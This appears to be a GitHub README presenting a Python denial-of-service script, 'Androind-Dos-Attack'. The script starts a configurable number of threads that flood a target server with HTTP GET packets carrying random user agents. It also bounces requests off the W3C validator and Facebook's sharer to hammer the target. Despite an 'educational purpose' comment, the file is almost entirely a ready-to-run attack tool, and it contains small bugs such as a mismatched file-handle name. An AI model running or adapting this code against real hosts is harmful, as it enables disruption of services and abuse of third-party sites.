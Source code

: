 # Androind-Dos-Attack
#!/usr/bin/python3
# -*- coding: utf-8 -*-

#only for educational purpose
# only for legal purpose


from queue import Queue
from optparse import OptionParser
import time,sys,socket,threading,logging,urllib.request,random

def user_agent():
	global uagent
	uagent=[]
	uagent.append("Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.0) Opera 12.14")
	uagent.append("Mozilla/5.0 (X11; Ubuntu; Linux i686; rv:26.0) Gecko/20100101 Firefox/26.0")
	uagent.append("Mozilla/5.0 (X11; U; Linux x86_64; en-US; rv:1.9.1.3) Gecko/20090913 Firefox/3.5.3")
	uagent.append("Mozilla/5.0 (Windows; U; Windows NT 6.1; en; rv:1.9.1.3) Gecko/20090824 Firefox/3.5.3 (.NET CLR 3.5.30729)")
	uagent.append("Mozilla/5.0 (Windows NT 6.2) AppleWebKit/535.7 (KHTML, like Gecko) Comodo_Dragon/16.1.1.0 Chrome/16.0.912.63 Safari/535.7")
	uagent.append("Mozilla/5.0 (Windows; U; Windows NT 5.2; en-US; rv:1.9.1.3) Gecko/20090824 Firefox/3.5.3 (.NET CLR 3.5.30729)")
	uagent.append("Mozilla/5.0 (Windows; U; Windows NT 6.1; en-US; rv:1.9.1.1) Gecko/20090718 Firefox/3.5.1")
	return(uagent)


def my_bots():
	global bots
	bots=[]
	bots.append("http://validator.w3.org/check?uri=")
	bots.append("http://www.facebook.com/sharer/sharer.php?u=")
	return(bots)


def bot_hammering(url):
	try:
		while True:
			req = urllib.request.urlopen(urllib.request.Request(url,headers={'User-Agent': random.choice(uagent)}))
			print("\033[94mbot is hammering...\033[0m")
			time.sleep(.1)
	except:
		time.sleep(.1)


def down_it(item):
	try:
		while True:
			packet = str("GET / HTTP/1.1\nHost: "+host+"\n\n User-Agent: "+random.choice(uagent)+"\n"+data).encode('utf-8')
			s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
			s.connect((host,int(port)))
			if s.sendto( packet, (host, int(port)) ):
				s.shutdown(1)
				print ("\033[92m",time.ctime(time.time()),"\033[0m \033[94m <--packet sent! ATTACKING--> \033[1;31m")
			else:
				s.shutdown(1)
				print("\033[91mshut<->down\033[0m")
			time.sleep(.1)
	except socket.error as e:
		print("\033[91mno connection! server maybe down\033[0m")
		#print("\033[91m",e,"\033[0m")
		time.sleep(.1)


def dos():
	while True:
		item = q.get()
		down_it(item)
		q.task_done()


def dos2():
	while True:
		item=w.get()
		bot_hammering(random.choice(bots)+"http://"+host)
		w.task_done()


def usage():
	print ('''\033[0;94m
[Denial of service attack]
Presented By : Tushar
usage : python3 ddos.py [-s] [-p] [-t]
-h : help
-s : server ip
-p : port default 80
-t : turbo default 135 \033[0m''')
	sys.exit()


def get_parameters():
	global host
	global port
	global thr
	global item
	optp = OptionParser(add_help_option=False,epilog="Attacking")
	optp.add_option("-q","--quiet", help="set logging to ERROR",action="store_const", dest="loglevel",const=logging.ERROR, default=logging.INFO)
	optp.add_option("-s","--server", dest="host",help="attack to server ip -s ip |CodeAx1|")
	optp.add_option("-p","--port",type="int",dest="port",help="-p 80 default 80 |CodeAx1|")
	optp.add_option("-t","--turbo",type="int",dest="turbo",help="default 135 -t 135 |CodeAx1|")
	optp.add_option("-h","--help",dest="help",action='store_true',help="help you")
	opts, args = optp.parse_args()
	logging.basicConfig(level=opts.loglevel,format='%(levelname)-8s %(message)s')
	if opts.help:
		usage()
	if opts.host is not None:
		host = opts.host
	else:
		usage()
	if opts.port is None:
		port = 80
	else:
		port = opts.port
	if opts.turbo is None:
		thr = 135
	else:
		thr = opts.turbo


# reading headers
global data
Headers = open("headerddos.txt","r")
data = headers.read()
headers.close()
#task queue are q,w
q = Queue()
w = Queue()


if __name__ == '__main__':
	if len(sys.argv) < 2:
		usage()
	get_parameters()
	print("\033[92m",host," port: ",str(port)," turbo: ",str(thr),"\033[0m")
	print("\033[94mPlease wait...\033[0m")
	user_agent()
	my_bots()
	time.sleep(5)
	try:
		s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		s.connect((host,int(port)))
		s.settimeout(1)
	except socket.error as e:
		print("\033[91mcheck server ip and port\033[0m")
		usage()
	while True:
		for i in range(int(thr)):
			t = threading.Thread(target=dos)
			t.daemon = True  # if thread is exist, it dies
			t.start()
			t2 = threading.Thread(target=dos2)
			t2.daemon = True  # if thread is exist, it dies
			t2.start()
		start = time.time()
		#tasking
		item = 0
		while True:
			if (item>1800): # for no memory crash
				item=0
				time.sleep(.1)
			item = item + 1
			q.put(item)
			w.put(item)
		q.join()
		w.join()
        
